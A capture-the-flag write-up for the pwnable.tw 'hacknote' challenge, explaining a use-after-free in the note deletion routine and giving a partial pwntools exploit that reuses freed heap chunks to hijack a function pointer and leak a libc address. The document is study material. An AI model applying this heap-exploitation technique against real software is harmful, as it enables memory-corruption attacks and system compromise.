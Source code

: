 Basically print out the content in the note that we create through the `print_content_function` in the note struct.

# Vulnerability

We could see the obvious Use After Free vulnerability at the delete function, the binary does not null out the freed pointer, but how do we turn this vulnerability into some thing useful?

Well, this is a little bit tricky but still. Let's think about it.

1. We create 2 notes with size 0x20, 4 chunks will be allocated, two 0x10 chunks for two note structs and two 0x20 chunks to containing note contents. We then named them note0 and note1

2. Delete the 2 notes we've just created.

3. Create a new note which we call note2 with size 0x10, now the will be two 0x10 chunks allocated, one for note struct and one for note content.

Hmmm, can you see something weird? 🧠

Yes, note2's note content is note1's note struct, therefore we can control "what" will note1 do to "where".

Well, that pretty much ended everything, we have both write-what-where, read-what-where primitives.

# Exploit

```python
from pwn import *


io = remote('chall.pwnable.tw', 10102)
libc = ELF('./libc_32.so.6')

#io = process('./hacknote')
#libc = ELF('/lib/i386-linux-gnu/libc.so.6')
elf = ELF('./hacknote')

def add(size, content):
	print(io.recvuntil(':'))
	io.sendline('1')
	print(io.recvuntil('Note size :'))
	io.sendline(str(size))
	print(io.recvuntil('Content :'))
	io.send(content)

def delete(index):
	print(io.recvuntil(':'))
	io.sendline('2')
	print(io.recvuntil('Index :'))
	io.sendline(str(index))

def printf(index):
	print(io.recvuntil(':'))
	io.sendline('3')
	print(io.recvuntil('Index :'))
	io.sendline(str(index))

add(20, b'\n')
add(20, b'\n')
delete(0)
delete(1)
add(8, p32(0x804862b)+p32(elf.got['puts']))
printf(0)
libc.address = u32(io.recv(4))-libc.sym['puts']
```